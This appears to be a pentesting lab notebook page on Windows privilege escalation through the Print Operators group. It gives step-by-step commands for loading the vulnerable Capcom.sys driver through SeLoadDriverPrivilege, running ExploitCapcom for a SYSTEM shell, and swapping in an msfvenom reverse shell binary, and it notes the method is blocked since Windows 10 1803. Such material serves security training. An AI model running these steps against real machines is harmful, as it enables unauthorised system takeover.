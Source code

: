 # Print Operators

***

{% hint style="warning" %}
Le groupe Print Operators est un groupe avec des droits administratifs avancés, notamment le privilège SeLoadDriverPrivilege, qui permet de gérer les imprimantes sur un contrôleur de domaine. Ses membres peuvent aussi se connecter localement au contrôleur et effectuer des actions critiques comme l’arrêt du serveur. Si vous ne voyez pas ce privilège avec `whoami /priv` en mode non administrateur, il faut contourner l’UAC pour l’obtenir.
{% endhint %}

<mark style="color:green;">**Confirming Privileges**</mark>

```cmd-session
C:\htb> whoami /priv
```

<mark style="color:green;">**Checking Privileges Again**</mark>

{% hint style="info" %}
The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. Alternatively, from a GUI, we can open an administrative command shell and input the credentials of the account that is a member of the Print Operators group. If we examine the privileges again, `SeLoadDriverPrivilege` is visible but disabled.
{% endhint %}

{% hint style="warning" %}
It's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.
{% endhint %}

Download it locally and edit it, pasting over the includes below.

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

<mark style="color:green;">**Compile with cl.exe**</mark>

{% code fullWidth="true" %}
```cmd-session
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
{% endcode %}

<mark style="color:green;">**Add Reference to Driver**</mark>

Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`. Issue the commands below to add a reference to this driver under our HKEY\_CURRENT\_USER tree.

{% code overflow="wrap" fullWidth="true" %}
```cmd-session
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
{% endcode %}

The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

<mark style="color:green;">**Verify Driver is not Loaded**</mark>

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

<mark style="color:green;">**Verify Privilege is Enabled**</mark>

```cmd-session
C:\htb> EnableSeLoadDriverPrivilege.exe
```

<mark style="color:green;">**Verify Capcom Driver is Listed**</mark>

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

<mark style="color:green;">**Use ExploitCapcom Tool to Escalate Privileges**</mark>

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell-session
PS C:\htb> .\ExploitCapcom.exe
```

This launches a shell with SYSTEM privileges.

<figure><img src="../../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

***

### <mark style="color:red;">Alternate Exploitation - No GUI</mark>

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

***

### <mark style="color:red;">Automating the Steps</mark>

<mark style="color:green;">**Automating with EopLoadDriver**</mark>

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

{% code fullWidth="true" %}
```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
{% endcode %}

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

***

### <mark style="color:red;">Clean-up</mark>

<mark style="color:green;">**Removing Registry Key**</mark>

{% code fullWidth="true" %}
```cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```
{% endcode %}

{% hint style="danger" %}
Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY\_CURRENT\_USER".
{% endhint %}
